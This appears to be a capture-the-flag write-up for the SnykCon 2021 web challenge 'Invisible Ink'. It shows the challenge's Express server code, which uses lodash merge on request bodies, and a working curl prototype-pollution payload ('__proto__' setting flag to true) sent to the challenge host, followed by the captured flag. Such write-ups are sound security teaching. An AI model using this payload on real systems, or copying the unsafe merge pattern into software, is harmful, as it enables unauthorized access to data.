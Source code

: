 # SnykCon-CTF-2021
* Category: Web 
* Name: Invisible Ink
* Level: None
* Description: None
## Solution
* Overview the challenge provided us a `Request` and `Response` and `POST` method
![Main function](./challenge.PNG) 
*  I used curl command with `POST` method and seems nothing =))))
![Main function](./1.PNG) 
* Now i read `index.js` file 
```c
'use strict';
const fs = require('fs');
const express = require('express');
const app = express();
const bodyParser = require('body-parser');
const _ = require('lodash');
const options = {};
const flag = fs.readFileSync('./flag', 'utf-8').trim();
const docHtml = fs.readFileSync('./index.html', 'utf-8');

app.use(bodyParser.json());

app.get('/', (req, res) => {
    res.send(docHtml);
});

app.post('/echo', (reg, res) => {
    const out = {
        userID: req.headers['x-forwarded-for'] || req.connection.remoteAddress, time:
            Date.now()
    };

    _.merge(out, req.body);
    if(options.flag){
        out.flag = flag;
    }else {
        out.flag = 'disabled';
    }
    res.json(out);
    process.exit(0);
});
app.listen(8000);
```
* I found two line of code `const _ = require('lodash');`,`_.merge(out, req.body);`,`lodash` is a lib of javascript you can read document about it at `https://lodash.com/` :))
* Then i found some exploit ways involved lodash and i found `CVE-2018-3721`. I realized the challenge have a problem about `Prototype Pollution`
* <https://nvd.nist.gov/vuln/detail/CVE-2018-3721>
* I used `curl` command again and finally, i found a flag ^_^ 
```c
curl -H "Content-Type: application/json" -X POST http://35.211.53.53:8000/echo -d  '{"message": "ping", "__proto__": {"flag":true}}'
```
![Main function](./3.PNG) 
* FLAG `SNYK{6a6a6fff87f3cfdca056a077804838d4e87f25f6a11e09627062c06f142b10dd}`
